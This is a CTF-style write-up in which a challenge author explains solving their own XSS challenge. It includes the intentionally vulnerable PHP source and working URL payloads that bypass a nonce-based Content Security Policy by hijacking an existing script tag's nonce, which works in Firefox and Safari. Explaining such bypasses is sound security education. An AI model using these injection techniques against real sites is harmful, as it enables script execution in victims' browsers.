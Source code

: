 > :Title shadow=0 0 8px black, color=white
>
> My first XSS challenge - Writeup

> :Author name=Alain, date=13/09/2020

<br>

# The challenge

Two weeks ago I created [my first XSS challenge](https://twitter.com/krial057/status/1300423121351184384). A XSS challenge is similar to a [CTF challenge](https://ctftime.org/ctf-wtf/). Whereas CTF challenges usually consist of complete Websites without a clear goal, a XSS challenge is usually short and the goal is to execute arbitrary Javascript code.

The main obstacle of my XSS challenge consisted of bypassing the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Source Code
The challenge source code was public, so no hidden secrets to find. The following is a shortened version of the challenge source code:
```php | index.php
<?php 
  $nonce = base64_encode(random_bytes(32));
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-".$nonce."'"); // --> Only allow script execution with the right nonce token
?>
<html>
    <body>
        <?php
            $todos = '';
            $todos = $todos."<div> Todo #1 </div>\n"; // --> A constant TODO
            $todos = $todos."<div> Todo #2 </div>\n"; // --> A constant TODO
            $todos = $todos."<div> ".$_GET['todo']." </div>\n"; // --> A TODO supplied by the user over url
            $todo_list = explode("\n", $todos);
            foreach($todo_list as $todo) {
                if(strpos($todo, "script") === false) { // --> Don't allow script injections in todos
                    echo $todo."\n";
                } 
            }
        ?>

        <script nonce="<?php echo $nonce ?>">
                console.log("bla")
        </script>
    </body>
</html>
```

# The solution

## Baby steps

The first thing one should notice is the possibilty to inject arbitrary html using the todo parameter:
```php
$todos = $todos."<div> ".$_GET['todo']." </div>\n"; // --> arbitrary HTML injection using ?todo=own_html
```
People not knowing about [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) probably think they could simply provide a `script` element with arbitrary JS. The script tag filter `if(strpos($todo, "script") === false)` could easily be bypassed using `SCRIPT` instead of `script`. However, giving it a try we get the following error in the console:
```js | index.php?todo=<SCRIPT>alert(1)</SCRIPT>
/*~*/ Refused to execute inline script because it violates /*~*/
/*~*/ the following Content Security Policy directive: /*~*/
/*~*/ "script-src 'nonce-FHFXLGv/SdLkQ9CjBaE8s5wiMR3W1yADF+BjNZE+ZNs='". /*~*/
/*~*/ Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), /*~*/
/*~*/ or a nonce ('nonce-...') is required to enable inline execution. /*~*/
```

The only possible way to to execute arbitrary javascript is to add a `nonce` attribute to the `script` tag that is the same as the one defined in the CSP header. As the nonce is randomly generated on each page refresh, it is impossible to set it in advance.

## Getting the nonce

So the big question is: how can we add a script tag with a valid nonce before we know the nonce?
Most common techniques are:
* Exfiltrate the nonce somehow and reuse it
* Force the same nonce using a cached version of the site
* Overwrite the base tag

However, all of these were not possible on my challenge. `default-src` was set to `none`, making nonce exfiltration pretty much impossible. Page caching was disabled and there was no script tag with a relative url, that could have been abused by the base tag.

The main idea was to somehow reuse the same nonce that is already used by the included script. Let's see what would happen if we open a script tag without closing it in front of another script tag:

```html
/*+*/ <script <script nonce="randomlyGeneratedNonce">
     console.log("bla")
</script>
```

Interestingly, the original `<script` is now considered to be an attribute of our newly injected open script tag.
Even better, we can inject our own attributes inside the script tag that has the correct nonce:

```html
/*+*/ <script id="yolo" <script nonce="randomlyGeneratedNonce">
    console.log("bla")
</script>
```

The next big question is, what happens if we provide a `src` attribute. Will it execute the script provided in the `src` attribute or will it run, as before, the content (`console.log`) of the `<script>` element? Let's try it out in Firefox:

```html
/*+*/ <script src="data:,alert(1)" <script nonce="randomlyGeneratedNonce"> /* --> src could also be a URL to a js file and it would also work */
    console.log("bla")
</script>
```
This HTML snippet will actually result in an alert popping up and showing nothing in the console. So `src`has a higher priority than the actual script element content.

Perfect, let's try to pop an alert with my challenge:

```
https://not.lu/challenge?todo=%3cSCRIPT%20src=data:,alert(1)
```

But nothing happens. Let's inspect the DOM tree:
```html
<SCRIPT src="data:,alert(1)" < div>
    <script nonce="I7ZgzXJRSbrjz5vwVlPSEOGzDxBZVOjPOVJ6WQJkoWU=">
      console.log("test")
</script>
```

The problem is, the todo we add is encapsulated inside a div element:
```php
$todos = $todos."<div> ".$_GET['todo']." </div>\n";
```
and the `>` of the ending div tag is closing our script tag before the nonce is reached.

However I sneaked a way inside the challenge to remove the ending div tag. Do you remember the filter that removes the `script` tags?
It not only removes the script tag but the whole line in which the script tag is inside:

```php
foreach($todo_list as $todo) {
    if(strpos($todo, "script") === false) { // --> If "script" is contained inside the line, don't echo the whole line.
        echo $todo."\n";
    } 
}
```
by providing a todo with the following content: `<SCRIPT src="data:,alert(1)" \n script </div>`, we can remove the unwanted closing div tag:

```html
<SCRIPT src="data:,alert(1)" 
/*-*/ script </div> // --> This line will be removed as it contains "script"
    <script nonce="I7ZgzXJRSbrjz5vwVlPSEOGzDxBZVOjPOVJ6WQJkoWU=">
      console.log("test")
</script>
```


## The final solution

[Doesn't work in Chrome:](#why-it-doesnt-work-in-chrome--csp-v3)

```
https://not.lu/challenge?todo=%3cSCRIPT%20src=data:,alert(1)%0ascript
```

# Why it doesn't work in Chrome / CSP v3

At first I was very confuset why it wasn't working in Chrome. Chrome was throwing an error that the nonce was incorrect. However, the nonce attribute was set and was correct.(`console.log(script.nonce)` was the same as the nonce set in the CSP header).

It was [@SecurityMB](https://twitter.com/SecurityMB) who pointed me to the following CSP v3 spec: [Nonceable Algorithm](https://www.w3.org/TR/CSP3/#is-element-nonceable). The problem of abusing an already existing script tag's nonce is apprently known and this new spec prevents the mechanic . It does this by chechking for the strings `<script` or `<style` inside a script element's attribute names and values. If it is present it renders the nonce invalid.

Firefox and Safari don't implement this spec yet. Therefore, this mechanic could still be abused in my challenge.